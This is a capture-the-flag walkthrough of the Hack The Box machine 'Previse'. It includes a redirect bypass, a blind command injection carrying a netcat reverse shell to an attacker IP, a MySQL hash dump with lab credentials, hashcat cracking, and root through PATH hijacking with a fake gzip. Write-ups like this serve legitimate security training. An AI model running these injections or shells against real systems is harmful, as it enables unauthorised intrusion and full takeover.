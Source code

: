 # Previse

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.11.104  -v`

`gobuster dir -u 10.10.11.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`


### Open ports

```
22 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80 Apache httpd 2.4.29
```

## Users

```
root:mySQL_p@ssw0rd!:) -> creds for mysql db (previse)
m4lwhere:ilovecody112235! -> creds found in previse db 
```


## Endpoints

```
[16:32:23] 302 -    4KB - /accounts.php  ->  login.php
[16:32:28] 302 -    0B  - /download.php  ->  login.php
[16:32:29] 302 -    6KB - /files.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php/login/  ->  login.php
[16:32:31] 302 -    0B  - /logout.php  ->  login.php
[16:32:35] 302 -    3KB - /status.php  ->  login.php
```



## Notes

* Found some redirects and tried to manipulate the 302 response to 200 OK in burp

![image](https://user-images.githubusercontent.com/12052283/130096341-94e2160b-5b44-49c9-ae90-f7fa9f705c31.png)

* Manipulating `/files.php`

* I got some redirects but then I checked ippsec Bank video and he shows how can I trick the browser by going to the `/files.php` instead of redirecting to `/login.php`. I did that in burp suite changing 302 Found to 200 OK and it worked. 

![image](https://user-images.githubusercontent.com/12052283/130097012-1c7f6f5b-0737-4c51-83fd-af2434881c2c.png)

![image](https://user-images.githubusercontent.com/12052283/130097078-b98400a4-7c1d-47cd-ae29-8ac60e8f5409.png)

![image](https://user-images.githubusercontent.com/12052283/130097127-d149dd0e-6b84-4af5-8bef-8b192555f030.png)

* Created a new user and downloaded the siteBackup.zip .

* In `logs.php` there is an `exec` command that executes a python script, so I can execute another command inside that. In the `http://10.10.11.104/file_logs.php` I can intercept in burp and I can inject the command in `delim` param.

* I tried using `id` , `ls`, `whoami` but I found that the injection was blind so no errors returned. Then I used `sleep 2` and it worked. So I spawn a rev shell using `space ; sleep 2 && nc -e /bin/sh 10.10.14.109 9991` url encoded in the `delim` param. The shell worked and I loged in as www-data

* Upgraded the shell using ...

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' ENTER
Ctrl + Z
stty raw -echo ENTER
fg ENTER ENTER
export TERM=xterm
```

* Logged in into mysql and got the `m4lwhere` hash `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

```bash
mysql -u root -p
mySQL_p@ssw0rd!:)
use previse;
select username,password from accounts;
```

![image](https://user-images.githubusercontent.com/12052283/130125384-1c250445-344a-405e-8302-4f23e0db4acc.png)

* Finding what hash is using `hashcat --example-hashes | grep '\$1' -B4`

* Executing hashcat to crack since I find the hash is a mode 500

![image](https://user-images.githubusercontent.com/12052283/130125578-18df65ab-78da-497d-ab05-f97bf8b08cd8.png)

* With the hash I ssh with user m4lwhere and got the `user.txt` flag

### Getting root

* Executing `sudo -l` I saw that `secure_path` is missing so it will use the user PATH and I could execute `sudo /opt/scripts/access_backup.sh` has root

* So to privesc I needed to create an evil binary (with `gzip` name since the `access_backup.sh` is using gzip) with a reverse shell for example, then I added the `/tmp` folder to the user PATH so when I executed the `access_backup.sh` first it will go to the tmp folder and sees the evil `gzip` binary and then it will execute that binary

Basically it will run the `access_backup.sh` and it will use the `PATH` from the current user since its not defined so it will go to `/tmp` folder first and see if it finds the `gzip` binary. It will find the `evil gzip` and it will execute the revshel

![image](https://user-images.githubusercontent.com/12052283/130155296-bc80155e-5911-43c1-9256-4abb59adae6a.png)


# References

* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

* https://www.youtube.com/watch?v=JRPWFSzFaG0 -> minute 08:00
